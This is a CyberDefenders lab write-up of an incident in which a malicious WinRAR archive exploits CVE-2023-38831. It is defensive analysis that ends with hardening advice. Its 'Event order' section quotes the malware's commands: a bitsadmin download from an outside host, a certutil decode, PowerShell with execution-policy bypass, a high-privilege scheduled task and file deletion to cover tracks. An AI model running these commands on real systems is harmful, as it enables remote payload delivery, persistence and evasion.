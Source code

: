 # Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

### Identifying the malicious file

Inside the C:\Users\administartor\downloads folder, we can see evidence of Telegram being used. The WinRaR archive file that the FinTrust IT team reported is inside this telegram folder.
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/communication_software_sc.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/suspicouis_fille_sc.png)
<br><br>
Reviewing the WinRaR archive file, we can see a file called "sans sec401.pdf" and a folder with the same name. Inside that folder, there is another file called "sans sec401.pdf.cmd"
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/rar_content1.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/rar_content2.png)
<br><br>

### CVE-2023-38831 Detail:
This activity of the WinRAR archive is in line with CVE-2023-38831. 

RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831

After extracting the malicious .cmd file, it was run through dynamic analysis to review its actions. It attempted to use bitsadmin to download from "172.18.35.10:8000." Once the file was downloaded and decoded, it launched multiple PowerShell scripts and created a scheduled task to elevate its privileges.
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/dynamic_analysis_sc.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/powershell_activity.png)
<br><br>


<table>
  <tr>
    <td><img src="./SpottedInTheWIld_Lab/dynamic_analysis_sc.png" alt="Image 1" width="550"/></td>
    <td><img src="./SpottedInTheWIld_Lab/powershell_activity.png" alt="Image 2" width="500"/></td>
  </tr>
</table>

![suspicious_processes](./SpottedInTheWIld_Lab/run_script_sc.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/Decoded_run_script_sc.png)
<br><br>
<table>
  <tr>
    <td><img src="./SpottedInTheWIld_Lab/run_script_sc.png" alt="Image 1" width="550"/></td>
    <td><img src="./SpottedInTheWIld_Lab/Decoded_run_script_sc.png" alt="Image 2" width="500"/></td>
  </tr>
</table>

![suspicious_processes](./SpottedInTheWIld_Lab/stored_data.png)
<br><br>
![suspicious_processes](./SpottedInTheWIld_Lab/win_powershell_log.png)
<br><br>
## Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
4. Created a scheduled task  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
del z.ps1
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
</pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Deleted the scheduled task  \whoisthebaba
<pre>
del c:\Windows\system32\Tasks\whoisthebaba
</pre>
9. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
</pre>
10. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
</pre>


## Recommendations:

In this given scenario, I would recommend that FinTrust Bank consider the following security improvements:

### Remove PowerShell and Command Prompt access for users who do not need to utilize its functionality for their job.

Priority: High

PowerShell and Command Prompt are powerful tools native to the Windows environment. Bad actors can use these tools to perform activities that will not raise any red flags. Consider removing access to these tools for users who do not need them. This will hamper attackers' capabilities, cause harm, or perform reconnaissance on the system, forcing them to use different, noisier tactics. 

### Remove local administrator rights where applicable and practice the principle of least privilege.

Priority: High

The principle of least privilege is the practice of limiting an account's rights to only the permissions needed to perform its function. Removing the local administrator account when applicable would restrict any abnormal behavior. This means that if a host is compromised, the actions the attacker can perform are more limited.


### Verify all software is using the newest release when applicable.

Priority: High

Maintaining up-to-date software on assets is critical to prevent the execution of known vulnerabilities. Ensure that a proper software management program is used to ensure your host's software uses the latest, and most secure version.
